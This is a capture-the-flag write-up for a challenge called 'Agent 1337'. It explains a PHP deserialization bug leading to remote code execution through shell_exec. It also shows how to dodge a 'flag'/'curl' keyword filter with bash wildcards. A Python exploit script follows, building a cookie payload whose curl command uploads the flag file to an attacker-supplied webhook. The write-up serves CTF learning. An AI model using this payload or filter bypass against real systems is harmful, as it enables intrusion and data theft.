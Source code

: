 # Agent 1337

## Overview
The flag can be obtained through RCE (Remote Code Execution). It's possible to exploit deserialization to achieve RCE in the username via PHP `shell_exec` command. To do this, it's enough to serialize a User object and pass the bash command we want into the username, closing the previous string and commenting out the remaining apostrophe at the end. Once the object is serialized, we can convert it to base64 and use it as a session cookie. Since `shell_exec` executes code without displaying the output, it's necessary to use an external server such as ngrok or requestbin to send the flag. To make things even more complicated, the strings like `flag` or `curl` have been banned, but this can be easily bypassed using bash wildcards. For example, `/f*` will not be blocked e we can rewrite `curl` as `c?rl`, but execute it by referencing it from `/usr/bin/c?rl`.

## Exploit
```py
import subprocess
import requests

url = "http://127.0.0.1:6003"
webhook = input("webhook: ")

php_code = f"""
    <?php
    class User {{
        public $username;

        public function __construct($username) {{
            $this->username = $username;
        }}
    }}
    echo base64_encode(serialize(new User("'; /usr/bin/c?rl -T /f* {webhook} #")));
    ?>
"""

output = subprocess.check_output(["php"], input=php_code.encode())
cookies = output.decode().strip()

requests.get(url, cookies={"user": cookies})
```